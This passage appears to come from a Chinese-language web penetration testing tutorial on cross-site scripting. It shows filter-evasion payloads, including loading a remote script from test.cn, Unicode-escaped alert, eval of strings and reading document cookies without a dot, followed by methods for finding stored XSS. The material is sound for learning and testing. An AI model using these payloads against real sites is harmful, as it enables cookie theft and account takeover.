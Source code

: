 最终执行

```
<script>

z='undefined<script src=test.cn/1.js></script>';

document.write(z)

</script>
```

#### 避开过滤：脚本代码

有些过滤器可能阻止javascript关键字和表达式，有用的字符，比如引号、括号和圆点。

**Unicode转义**

```javascript
<script>a\u006cert(1)</script>
```

如果能够使用eval命令，就能够将其它命令以字符串的格式传送给eval，从而执行其它 命令。

```javascript
<script>eval('a\u006cert(1)');</script>
```

**替代圆点**

```javascript
<script>alert(document['cookie'])</script>
<script>with(document)alert(cookie)</script>
```

## 查找利用存储型XSS

确定保存型XSS漏洞的过程与前面描述的确定反射型XSS漏洞的过程类似。 

但是，这两个过程之间也存在一些重要的区别；

在进行测试时必须记住这些区别，以确定尽可能多的漏洞。

> (1) 向应用程序的每一个可能的位置提交一个特殊字符串后，必须反复检查应用程序的全部内容与功能；
>
> (2) 如有可能，应检查管理员能够访问的区域，确定其中是否有可以被非管理用户控制的数据；
>
> ​      比如有些应用可以在浏览器查看日志，攻击者可留下恶意的HTML日志加以利用；
>
> (3) 检查应用的整个流程，确保测试彻底，检查任何可控的带外通道，如HTTP消息头；

**在上传文件中测试XSS**

如果应用程序允许用户上传可被其它用户查看下载的文件，就会出现保存型XSS，这种漏洞常被人们忽略。

测试时，首先上传一个验证性的HTML文件。

如果该文件被接受，则尝试以正常方式下载该文件。

如果应用程序按照原样返回最初的文件，并且脚本被执行，则应用肯定易于受到攻击。
